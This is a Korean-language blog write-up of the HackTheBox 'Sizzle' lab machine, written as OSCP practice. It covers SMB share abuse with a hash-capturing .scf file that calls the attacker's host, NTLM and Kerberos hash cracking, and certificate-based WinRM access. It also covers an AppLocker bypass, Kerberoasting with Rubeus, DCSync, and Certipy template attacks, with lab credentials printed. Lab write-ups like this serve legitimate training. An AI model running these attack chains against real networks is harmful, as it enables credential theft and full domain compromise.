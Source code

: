 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### Web Enum
```bash
gobuster dir -u 10.129.89.62 -w /usr/share/wordlists/dirb/common.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/0890786f6c0ab662374a5b273a0b20d6_MD5.jpeg)
### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

# smb folder mount
sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

sudo responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```

```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.92\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)
### Password Crack
```bash
hashcat -h | grep NTLM
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/bb07d49603b833a15eba2b10bf594f06_MD5.jpeg)

### Evil-WinRM [Key Auth]
WinRM은 기본적으로 ID/PW 기반의 기본 인증을 통해 인증하지만, 인증서 기반 인증을 통해 인증할 수도 있다.
```bash
# openssl 통한 CSR 파일 생성
openssl req -new -newkey rsa:2048 -nodes -keyout private.key -out request.csr

# 그 후 http://10.129.89.62/certsrv/ : amanda : Ashare1972 를 통해 request.csr 업로드 후 cer 다운로드 [사진 참조]
cat request.csr

# 받은 cer로 인증 시도
evil-winrm -S -i 10.129.112.117 -u amanda -p Ashare1972 -c certnew.cer -k private.key
```

![](/assets/images/posts/2025-03-08-Sizzle/3d8b59e04c54f7fa179ee9814a386110_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/d224011add69d27ae61ee3aee5c2a1fc_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/144b5f744e59341ac128e8268ccc74c2_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/8cf46c442ad95dcf7d1e8cd5cd957537_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/02687eaeda255f9a483846f37269bd4d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/4826fff15c51a7fcbd0059136518aa59_MD5.jpeg)
#### WinRM Shell [번외]
```bash
gem install winrm

# winrm_shell.rb 생성
require 'winrm'  
  
#Append necessary changes in winrm_shell.rb  
conn = WinRM::Connection.new(  
endpoint: 'https://10.10.10.103:5986/wsman' ,  
transport: :ssl,  
:client_cert => 'certnew.cer' , # from the server  
:client_key => 'private.key' , # private key  
:no_ssl_peer_verification => true)  
  
command=""  
  
conn.shell(:powershell) do |shell|  
	until command == "exit\n" do  
		output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")  
	print(output.output.chomp)  
		command = gets  
		output = shell.run(command) do |stdout, stderr|  
			STDOUT.print stdout  
			STDERR.print stderr  
		end  
	end  
	puts "Exiting with code #{output.exitcode}"  
end

# 실행
ruby winrm_shell.rb
```
### AppLocker Bypass
.exe, .ps1 등 실행이 안된다면 AppLocker 우회 방법을 통해 우회 시도

```powershell
# 내부적으로 88 port가 열려있음을 알 수 있음 -> 커버로스 관련 공격 가능
netstat -ap tcp

# blocked
iwr -uri http://10.10.14.92:8000/Rebeus.exe -OutFile Rebeus.exe
.\Rebeus.exe

# bypass
# https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
Move-Item -Path C:\Users\amanda\Desktop\Rubeus.exe -Destination C:\Windows\Temp\Rubeus.exe
cd C:\Windows\Temp
.\Rubeus.exe
```

![](assets/images/posts/2025-03-08-Sizzle/33c7c6b55545b8aaef121dcbd2651785_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/d49bb89ba91bb4d4ce46302d97521c9e_MD5.jpeg)
### Rubeus.exe
```powershell
# roasting 시도
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```
![](assets/images/posts/2025-03-08-Sizzle/5a76f4478ad69812193c9b1145cc27d1_MD5.jpeg)

### Password Crack
```bash
hashcat -h | grep Kerber
hashcat -m 13100 mrlky.hash /usr/share/wordlists/rockyou.txt

Football#7
```
![](assets/images/posts/2025-03-08-Sizzle/7bf8524e98b4167a2e95ebe5b769832a_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/1e8d922214b3f9119cad72d91c656c92_MD5.jpeg)

### BloodHound
```bash
bloodhound-python -c All -u 'mrlky' -p 'Football#7' -d 'htb.local' -ns 10.129.115.235 --zip
```
![](assets/images/posts/2025-03-08-Sizzle/7bf7a4c4dae7574b8e7d1a27ff2cd38f_MD5.jpeg)

### DCSync
```bash
secretsdump.py htb.local/mrlky:Football#7@10.129.115.235
```
![](assets/images/posts/2025-03-08-Sizzle/d384c9db77be4c63f889a89193211a10_MD5.jpeg)

## 실패 모음
### AD CS [Active Directory Certificate Services]
88 Port [커버로스] 닫혀있어서 실패...
```bash
# http://10.129.89.62/certsrv/ : amanda : Ashare1972
certipy find -u amanda -p Ashare1972 -dc-ip 10.129.112.117 -vulnerable

# ESC4 Exploit : ECS4는 취약한 템플릿을 만들 수 있는 취약점
certipy template -dc-ip 10.129.112.117 -u amanda -p 'Ashare1972' -template SSL -target sizzle.htb.local -save-old

certipy req -ca 'HTB-SIZZLE-CA' -dc-ip 10.129.112.117 -u 'amanda' -p 'Ashare1972' -template SSL -target 'sizzle.htb.local' -upn 'Authenticated Users@htb.local'

# 그 후 다시 vuln 조사하면 ESC1이 취약함으로 변경 됨.
# ESC1 Exploit : 
certipy req -u amanda -p 'Ashare1972' -ca 'HTB-SIZZLE-CA' -template SSL -dc-ip 10.129.112.117 -upn 'Administrator@htb.local'

# in Linux
certpy auth -pfx administrators.pfx -dc-ip 10.129.112.117
```
![](/assets/images/posts/2025-03-08-Sizzle/0b7776e5bf429f95044c8fb4e5e9c1f3_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/90fd5a11b99e4b8479c6619b5c6b0f68_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/f87d0086ead259e73afd7b15405c377c_MD5.jpeg)

![](/assets/images/posts/2025-03-08-Sizzle/74208aab76029e691df0a9d30c327b77_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/58218e4bf47327c33fc31589180b1f64_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/06a2d4d6f3b323ac6a2224ff2203209d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/50f1e956227263d7c075ce19186f646b_MD5.jpeg)
### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

ESC1, ESC2 취약함
"SUBCA@HTB.LOCAL"
Template Name : SubCA
```

```
Credential

amanda : Ashare1972
```